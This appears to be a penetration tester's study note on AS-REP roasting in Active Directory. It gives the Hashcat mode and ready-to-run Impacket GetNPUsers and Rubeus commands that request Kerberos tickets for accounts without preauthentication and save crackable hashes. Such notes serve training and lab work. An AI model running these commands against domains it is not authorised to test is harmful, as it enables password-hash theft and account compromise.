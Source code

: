AS-REP roasting is a technique that allows retrieving password hashes for users that have `Do not require Kerberos preauthentication` property selected. This means that the *DC gives the Ticket without the user having to provide their password*.
The Kerberos ticket is hashed with password of the user.

![[Pasted image 20230710213612.png]]

Hashcat: 18200
# Attack Tools
### Impacket
**GetNPUsers.py** script will attempt to list and get TGTs for those users that have the property `Do not require Kerberos pre-authentication` set (UF_DONT_REQUIRE_PREAUTH). For those users with such configuration, a John the Ripper output will be generated so you can send it for cracking.

```sh
impacket-GetNPUsers -dc-ip 192.168.1.105 ignite.local/ -usersfile users.txt -request -format john -outputfile hashes

# -dc-ip : IP Address of DC
# -usersfile : File with users to enumerate
# ignite.local: Domain name
```

If we already know the **username** & there's no password for that user :-
```sh
./GetNPUsers.py spookysec.local/svc-admin -no-pass

# svc-admin : Username
# Make sure to Add a DNS to map the domain name to it's IP Address
```

## Rubeus
```cmd
.\Rubeus.exe asreproast /nowrap
```